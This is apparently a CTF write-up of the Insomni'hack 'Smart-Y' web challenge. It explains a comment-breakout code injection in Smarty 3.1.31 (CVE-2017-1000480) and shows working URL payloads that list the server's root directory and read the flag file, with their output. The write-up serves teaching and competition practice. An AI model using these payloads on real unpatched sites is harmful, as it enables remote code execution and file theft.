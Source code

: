 # Smart-Y

This challenge was the second most flagged Web challenge of the CTF.

## Description

```
Last year, a nerd destroyed the system of Robot City by using some evident flaws. It seems that the system has changed and is not as evident to break now.
http://smart-y.teaser.insomnihack.ch
```

## Recon

The description evokes a previous challenge from Insomni'hack 2017. We
therefore started by looking for the
[writeup](https://terryvogelsang.tech/insomnihack-2017-nerdwar/) of this
challenge. At this point, it seems likely that the website uses the Smarty
framework - which is confirmed by the name of the challenge - and that the
SQLi as well as the template injection from the previous edition have been
patched.

The output of `dirb` indicates that the **smarty** directory exists and contains
the following **changelog.txt** file:

```
===== 3.1.31 ===== (14.12.2016)
  23.11.2016
   - move template object cache into static variables
```

The functionality that was vulnerable to SQL injection through the fetch
function before has been deactivated.
However, the display function is still available:

```php
<?php 

if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
include_once('./smarty/libs/Smarty.class.php'); 
define('SMARTY_COMPILE_DIR','/tmp/templates_c'); 
define('SMARTY_CACHE_DIR','/tmp/cache'); 
  
  
class news extends Smarty_Resource_Custom 
{ 
    protected function fetch($name,&$source,&$mtime) 
    { 
        $template = "The news system is in maintenance. Please wait a year. <a href='/console.php?hl'>".htmlspecialchars("<<<DEBUG>>>")."</a>"; 
        $source = $template; 
        $mtime = time(); 
    } 
} 
  
// Smarty configuration 
$smarty = new Smarty(); 
$my_security_policy = new Smarty_Security($smarty); 
$my_security_policy->php_functions = null; 
$my_security_policy->php_handling = Smarty::PHP_REMOVE; 
$my_security_policy->modifiers = array(); 
$smarty->enableSecurity($my_security_policy); 
$smarty->setCacheDir(SMARTY_CACHE_DIR); 
$smarty->setCompileDir(SMARTY_COMPILE_DIR); 


$smarty->registerResource('news',new news); 
$smarty->display('news:'.(isset($_GET['id']) ? $_GET['id'] : ''));  
```

This version of Smarty is vulnerable to
[CVE-2017-1000480](https://www.cvedetails.com/cve/CVE-2017-1000480/).
Unfortunately, we couldn't find any public exploit for it. After digging through
the repository of Smarty, we identified the [commit](https://github.com/smarty-php/smarty/commit/614ad1f8b9b00086efc123e49b7bb8efbfa81b61)
introducing a patch.


The patch is the following:
```php
-        $output .= "/* Smarty version " . Smarty::SMARTY_VERSION . ", created on " . strftime("%Y-%m-%d %H:%M:%S") .
-                   "\n  from \"" . $_template->source->filepath . "\" */\n\n";
+        $output .= "/* Smarty version {Smarty::SMARTY_VERSION}, created on " . strftime("%Y-%m-%d %H:%M:%S") .
+                   "\n  from \"" . str_replace('*/','* /',$_template->source->filepath) . "\" */\n\n";
```

The patch prevents the user from closing the comment with `*/`.
Since the website uses a version of Smarty that doesn't contain this patch,
we should be able to **close the comment and inject our own code**.

Let's try it.
 
## Exploit
 
We start by listing the root directory by visiting the following URL:
`http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(scandir(%27/%27));/*`.

This outputs the following result:
```
 array(28) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(3) "bin"
  [3]=>
  string(4) "boot"
  [4]=>
  string(3) "dev"
  [5]=>
  string(3) "etc"
  [6]=>
  string(4) "flag"
  [7]=>
  string(4) "home"
  [8]=>
  string(10) "initrd.img"
  [9]=>
  string(14) "initrd.img.old"
  [10]=>
  string(3) "lib"
  [11]=>
  string(5) "lib64"
  [12]=>
  string(10) "lost+found"
  [13]=>
  string(5) "media"
  [14]=>
  string(3) "mnt"
  [15]=>
  string(3) "opt"
  [16]=>
  string(4) "proc"
  [17]=>
  string(4) "root"
  [18]=>
  string(3) "run"
  [19]=>
  string(4) "sbin"
  [20]=>
  string(4) "snap"
  [21]=>
  string(3) "srv"
  [22]=>
  string(3) "sys"
  [23]=>
  string(3) "tmp"
  [24]=>
  string(3) "usr"
  [25]=>
  string(3) "var"
  [26]=>
  string(7) "vmlinuz"
  [27]=>
  string(11) "vmlinuz.old"
}
```

It worked! Now that we got the path to the flag, all that's left is to
actually print it by visiting:
`http://smart-y.teaser.insomnihack.ch/console.php?id=*/var_dump(file_get_contents(%22/flag%22));/*`.

Aaaand, here's the flag:

**string(26) "INS{why_being_so_smart-y}"**

## Conclusion

Smart-Y was a really nice challenge, which mainly required to carefully read
a patch. Funnily enough, it seems that the patch is not yet available in a
stable Smarty release.
